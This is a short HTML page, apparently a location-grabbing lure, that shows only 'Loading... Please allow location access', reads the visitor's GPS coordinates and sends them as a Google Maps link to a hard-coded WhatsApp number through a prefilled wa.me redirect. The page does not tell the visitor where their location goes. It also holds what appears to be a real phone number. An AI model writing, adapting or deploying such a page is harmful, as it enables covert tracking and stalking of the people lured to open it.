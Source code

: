 <!DOCTYPE html>
<html>
<head>
  <title>Location Access</title>
</head>
<body style="text-align:center; font-family:sans-serif;">
  <h2>Loading... Please allow location access</h2>

  <script>
    function sendToWhatsApp(lat, lon) {
      let phone = "918779544976"; // Tumhara WhatsApp number
      let message = `Location Found: https://www.google.com/maps?q=${lat},${lon}`;
      let url = `https://wa.me/${phone}?text=${encodeURIComponent(message)}`;
      window.location.href = url;
    }

    if (navigator.geolocation) {
      navigator.geolocation.getCurrentPosition(function(position) {
        let lat = position.coords.latitude;
        let lon = position.coords.longitude;
        sendToWhatsApp(lat, lon);
      }, function(error) {
        alert("Location access denied!");
      });
    } else {
      alert("Geolocation not supported!");
    }
  </script>
</body>
</html>
